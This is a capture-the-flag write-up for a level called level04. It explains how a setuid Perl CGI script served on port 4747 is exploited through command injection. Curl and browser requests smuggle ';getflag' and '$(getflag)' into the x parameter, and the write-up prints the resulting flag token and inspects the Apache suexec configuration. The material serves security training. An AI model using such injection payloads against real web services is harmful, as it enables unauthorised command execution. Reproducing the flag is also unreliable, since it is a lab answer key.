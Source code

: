 # Level04 : find flag04

## Tutorial

1. Checking `$HOME`, `ls -l ~/level04.pl` :
   - result : `-rwsr-sr-x 1 flag04 level04 152 Mar  5  2016 /home/user/level04/level04.pl`
   - `.pl` is a perl file
   - `cat ~/level04.pl`, see file in folder :
     - shebang : `#!/usr/bin/perl`
     - hint : `# localhost:4747` 
     - CGI + `sub x` function + `x(param("x"))`
2. Connect to `curl http://<IP>:4747/level04.pl\?x\=toto` :
   - result : `toto`
   - Conclusion : there is a server running on port `4747` and the file `~/level04.pl` is a hint
3. Solution :
   - with curl : `curl http://192.168.56.3:4747/level04.pl\?x\=toto+%3B+"getflag"`, toto is not necessary, 3B=";" on ascii
   - in browser : `http://192.168.56.3:4747/level04.pl?x="toto+%3B+$(getflag)"`, toto is not necesary
   - result : `toto ; Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap`
   - DONE !

## Additionnal explanations

1. Check server file and configuration
   - launch `netstat -pnltu | grep 4747` => `tcp6    0    0    :::4747    :::*    LISTEN    -`
   - launch `ps -aux | grep apache2` => multiple lines user `root` and `www-data`
```
root      1409  0.0  0.6  21340  6264 ?        Ss   Apr09   0:04 /usr/sbin/apache2 -k start
www-data  1452  0.0  0.4  21420  4420 ?        S    Apr09   0:00 /usr/sbin/apache2 -k start
...
```
2. server files : `cd /var/www/level04`, `ls -l /var/www/level04`
   - result : `-r-xr-x---+ 1 flag04 level04 152 Apr  9 15:59 level04.pl`
   - note : the `+` is for the acl, use `getfacl /var/www/level04` for more information
3. server configuration files : `cd /etc/apache2/`
   - result : `ls -l /etc/apache2/sites-enabled/` => `lrwxrwxrwx 1 root root 31 Aug 30  2015 level05.conf -> ../sites-available/level05.conf`
   - see what is in conf file : `cat /etc/apache2/sites-enabled/level05.conf` => see below
```
<VirtualHost *:4747>
	DocumentRoot	/var/www/level04/
	SuexecUserGroup flag04 level04
	<Directory /var/www/level04>
		Options +ExecCGI
		DirectoryIndex level04.pl
		AllowOverride None
		Order allow,deny
		Allow from all
		AddHandler cgi-script .pl
	</Directory>
</VirtualHost>
```
4. Conclusion : 
   - `SuexecUserGroup` is used to define the `user` and `group` launching the program
   - we can see that the `DocumentRoot` is in `/var/www/level04/` with file name `level04.pl`
   - We can see that the `user` is `flag04` which allows us to use `getflag` command
   - getflag !
5. Notes : 
   - the previous method which consist of creating `/tmp/echo` with correct permissions can't work here
   - reason : `cat /etc/environment` set the `$PATH` variable for all users
   - more explanation in `/level03/Resources/README.md`

## Additional resources

- Perl, setting locale :
  - url : https://www.thomas-krenn.com/en/wiki/Perl_warning_Setting_locale_failed_in_Debian
- Perl and CGI :
  - https://www.cs.ait.ac.th/~on/O/oreilly/perl/learn32/ch18_04.htm
  - http://devernay.free.fr/cours/internet/cgi/perlex.html
- Module Apache mod_suexec : permet l'exécution des scripts CGI sous l'utilisateur et le groupe spécifiés
  - url : https://httpd.apache.org/docs/2.4/fr/mod/mod_suexec.html
  - Syntaxe : `SuexecUserGroup Utilisateur Groupe`
- Check services running on ports :
 - url : https://linoxide.com/linux-how-to/check-service-running-linux-port/
 - usage : `netstat -pnltu`
- ACL : Access Control List
  - url : https://lea-linux.org/documentations/ACL
- Find live hosts on my network :
  - url : https://security.stackexchange.com/questions/36198/how-to-find-live-hosts-on-my-network

